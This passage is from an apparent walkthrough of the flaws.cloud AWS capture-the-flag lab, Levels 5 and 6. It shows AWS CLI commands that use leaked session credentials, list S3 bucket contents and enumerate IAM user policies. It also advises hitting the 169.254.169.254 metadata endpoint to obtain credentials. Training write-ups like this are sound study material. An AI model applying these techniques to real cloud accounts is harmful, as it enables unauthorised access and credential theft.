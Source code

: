 Of note that it's actually necessary to include the `Token` as `aws_session_token` inside `~/.aws/credentials` in order to properly execute the next step, otherwise we hit a wall against `InvalidAccessKeyId`.

Running `aws s3 ls level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud --profile flaws5` returns
```
                           PRE ddcc78ff/
2017-02-26 23:11:07        871 index.html
```

So we try going to `http://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/` and we're in!

We learn from the post-stage writeup that the `169.254.169.254` IP is basically magical, any time we've got contact with an EC2 we should try to fire requests there to get back sensitive information like credentials

## Level 6
> For this final challenge, you're getting a user access key that has the SecurityAudit policy attached to it. See what else it can do and what else you might find in this AWS account.
> 
> Access key ID: `[Redacted]`
> Secret: `[Redacted]`

Straight up we try the obvious: `aws s3 ls level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud` with the provided credentials but no dice:
```
An error occurred (AccessDenied) when calling the ListObjectsV2 operation: User: arn:aws:iam::975426262029:user/Level6 is not authorized to perform: s3:ListBucket on resource: "arn:aws:s3:::level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud" because no identity-based policy allows the s3:ListBucket action
```

Let's check exactly who we are... `aws --profile flaws iam get-user`:
```json
{
    "User": {
        "Path": "/",
        "UserName": "Level6",
        "UserId": "AIDAIRMDOSCWGLCDWOG6A",
        "Arn": "arn:aws:iam::975426262029:user/Level6",
        "CreateDate": "2017-02-26T23:11:16+00:00"
    }
}
```

The username is clear enough, let's note this for the next step, `aws --profile flaws iam list-attached-user-policies --user-name Level6`
```json
{
    "AttachedPolicies": [
        {
            "PolicyName": "MySecurityAudit",
            "PolicyArn": "arn:aws:iam::975426262029:policy/MySecurityAudit"
        },
        {
            "PolicyName": "list_apigateways",
            "PolicyArn": "arn:aws:iam::975426262029:policy/list_apigateways"
        }
    ]
}
```
